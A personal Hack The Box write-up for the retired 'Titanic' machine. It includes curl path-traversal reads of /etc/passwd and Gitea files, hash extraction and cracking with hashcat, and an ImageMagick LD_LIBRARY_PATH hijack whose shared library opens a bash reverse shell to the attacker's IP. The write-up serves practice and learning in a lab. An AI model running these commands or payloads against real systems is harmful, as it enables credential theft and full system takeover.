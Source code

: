 ```yaml
---
layout: post
title: "Titanic"
date: 2025-06-21
categories: [htb, easy]
provider: htb
machine: titanic
retired: true
---
```


I think this was the fastest user flag I've got so far, but root took me a while. I also wonder if I got the foothold in the intended way. Most importantly, one of the lessons learned with another (still active) box was to do my CVE research more breadth-first instead of going deep on the first option... and I probably over-compensated for this one. Let's go through it:

<div class="attack-chain">
  {% include attack-step.html title="Test web app" description="Identified arbitrary file read vulnerability via path traversal" type="enum" %}
  {% include attack-step.html title="Enumerate web server" description="Discovered `dev` subdomain by virtual host bruteforce, hosting Gitea instance" type="enum" %}
  {% include attack-step.html title="Exploit file read vulnerability" description="Extracted Gitea configuration and database files" type="attack" %}
  {% include attack-step.html title="Foothold" description="Cracked `developer`'s password from Gitea DB and gained SSH access" type="foothold" %}
  {% include attack-step.html title="Enumerate filesystem" description="Found script run frequently by `root`, invoking ImageMagick" type="enum" %}
  {% include attack-step.html title="Privilege escalation" description="Exploited ImageMagick CVE-2024-41817, hijacking LD_LIBRARY_PATH, to gain reverse shell as `root`" type="root" %}
</div>

## Glitch string quartet music on
These Linux boxes usually start the same way, a quick `nmap` scan showing SSH & HTTP only, and the full TCP scan confirming it later on:
```
$ sudo nmap -p- -sV 10.10.11.55 -vv -oA full-tcp
<SNIP>
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52 
Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Logistics (`/etc/hosts`) taken care of, we go have a look at the web app, which lets you book a ticket on the Titanic. I wouldn't, if I were you. But it looks like we have to, so we do, and it immediately triggers the download of a JSON file containing whatever details we provided.

There's nothing interesting about the file itself and it doesn't look like it can be abused much. But every time we have an endpoint that lets us download a file by name we are compelled to just try something and see what happens... and sure enough it is vulnerable to arbitrary file read via path traversal:
```
$ curl http://titanic.htb/download?ticket=../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
<SNIP>
developer:x:1000:1000:developer:/home/developer:/bin/bash
<SNIP>
```

\[Hacker voice\] _we're kinda in_, so this gives me my fastest user flag to date. Trying things out to see what else we can get (sadly there's no private SSH key, for example), and seeing in the response headers that we're dealing with [Werkzeug](https://github.com/pallets/werkzeug) as a web app framework, we can hope there is a `titanic.py` or `app.py` file. The latter does hit, but it doesn't tell us anything about the application that we don't already know.

Not finding much, we go back to our basic checklist, and run directory and vhost enumeration. This is how we find out about `dev.titanic.htb`:
```
$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://titanic.htb/ -H 'Host: FUZZ.titanic.htb' -fs 306-330

<SNIP>
dev                     [Status: 200, Size: 13982, Words: 1107, Lines: 276, Duration: 35ms]
<SNIP>
```

This is a [Gitea](https://about.gitea.com/) site, a source code repository system similar to Github. We can register an account, and that might have opened other cans of worms that I didn't explore. Maybe that was the intended route... But without even needing to register, we can browse the source code for the app and some docker-compose files.

One of these is for a MySQL database container and includes some credentials. I spent a bit of time (more than I wanted to due to some kind of `fail2ban`...) trying these, and some modifications of these, on SSH. No luck.

## Google-fu
Assuming these credentials were meant for later, I switched attention to the compose file for Gitea itself. The interesting thing was the volume path, `/home/developer/gitea/data/`, which I could confirm was live with the original file read vulnerability on the site, since providing existing folders to the download endpoint caused an internal server error. I spent quite a bit of time here, either on Gitea's documentation or on other random Google results, trying to figure out the names of configuration files, but more importantly the right path for any files inside that volume. I finally came across [this post by an equally confused user](https://forum.gitea.com/t/where-is-the-custom-folder-inside-a-docker-installation/564). So the path goes `gitea/`, `data/`, ... and then `gitea/` again, for whatever reason. From there I could finally find what I was looking for, like the app's configuration file, which pointed us to something valuable:
```
$ curl http://titanic.htb/download?ticket=../../../../../home/developer/gitea/data/gitea/conf/app.ini
APP_NAME = Gitea: Git with a cup of tea

<SNIP>

[database]
PATH = /data/gitea/gitea.db
DB_TYPE = sqlite3
<SNIP>
```

Using the same technique to get the file, we go straight for the credentials.
```
$ sqlite3 gitea.db       
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
<SNIP>
user
<SNIP>

sqlite> .header on
sqlite> select * from user;
<WHOA SNIP>
sqlite> select name, passwd, passwd_hash_algo, salt from user;
name|passwd|passwd_hash_algo|salt
administrator|c<REDACTED>6|pbkdf2$50000$50|2<REDACTED>b
developer|e<REDACTED>6|pbkdf2$50000$50|8<REDACTED>4
```

Hashcat's example hashes for `PBKDF2` don't provide a clear match, so I'm back googling for how to properly feed these to the fluffy hash muncher. HTB is slowly eating the world, so [one of 0xdf's write-ups](https://0xdf.gitlab.io/2024/12/14/htb-compiled.html) for an old machine came up. It sounded awfully similar to this machine going by the description, though, and I've had enough close encounters with spoilers, so I kept looking. Someone wrote a pull-request for Hashcat to [add a gitea2hashcat.py](https://github.com/hashcat/hashcat/pull/4154) (in February, so maybe while working on this box, hah!), and despite not yet being accepted at the time of writing, the code does what it says on the tin. I made a small modification to clean up the output, ran the script to extract the hashes and let Hashcat munch on them. `developer`'s password comes up quickly (`administrator`'s doesn't, as expected, so we kill the process):
```
$ sqlite3 gitea.db 'select salt,passwd from user;' | ./gitea2hashcat.py > hashes.txt

$ hashcat hashes.txt ~/aen/rockyou.txt
<SNIP>
sha256:50000:i<REDACTED>=:5<REDACTED>=:<REDACTED>
```

We _finally_ have a foothold. Euh, I mean, \[hacker voice\] _we're in_. The flag was already in the pocket, so it's' time to look for a way to escalate privileges.

## Tragic hijack
Going through the privilege escalation checklist, we find that `/opt` has interesting things going on. There's a folder with the same ticket-booking application we know well at this point, and a `scripts` folder with a single such thing inside:
```
$ cat /opt/scripts/identify_images.sh
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

This `metadata.log` in `/opt/app/static/assets/images` is owned and only writeable by `root`, and we soon realise that it's being re-written every minute, indicating that, well, the script above is being run every minute by `root`. Subverting it in some way will give us what we want.

There are a few binaries in that script that are being called without their full path, so I spent some time trying to figure out if this was exploitable by checking for common `PATH` directories where we could write. Eventually convinced that this was not the way, I started looking for CVEs in ImageMagick.

[The very first one I found](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8), because I looked up the exact version of the binary (7.1.1-35) as one should always do, looked promising. If I had _just tried it_, it would have just worked. But since I had gotten myself in rabbit holes recently for going too deeply into the first thing I'd found, I just noted it down and moved on. In a less specific search, I found out about [ImageTragick](https://imagetragick.com/), a suite of old vulnerabilities, and I think I decided this must be it because the name was great. Yes, instead of going deeply into the first thing, I went deeply into the second thing.

After a good while trying to understand why the tragic JPG files I was creating were apparently not even being processed, I remembered the original promising CVE and finally gave that a try. It exploits an empty `LD_LIBRARY_PATH`  environment variable, so if we place a malicious library file in the `scripts` directory, it will be loaded when `/usr/bin/magick` is executed. We'll make it maliciously connect back to us:
```
$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("bash -c 'bash -i >& /dev/tcp/10.10.14.114/8888 0>&1'");
    exit(0);
}
EOF
```

 Once the minute passes and `identify_images.sh` runs, we get our root shell:
```
$ nc -nlvp 8888
listening on [any] 8888 ...
connect to [10.10.14.114] from (UNKNOWN) [10.10.11.55] 33236
bash: cannot set terminal process group (45494): Inappropriate ioctl for device
bash: no job control in this shell
root@titanic:/opt/app/static/assets/images# whoami
whoami
root
```

## Roll the credits
- Sometimes you find the information you need in the weirdest places. I'm not sure LLMs can figure that out, so I'm glad I'm an old Googler.
- Machines are getting retired in an awkward order, but this was not the first time I fumbled my CVE research. I can do better.
- As always, for reading this far, you're a champ.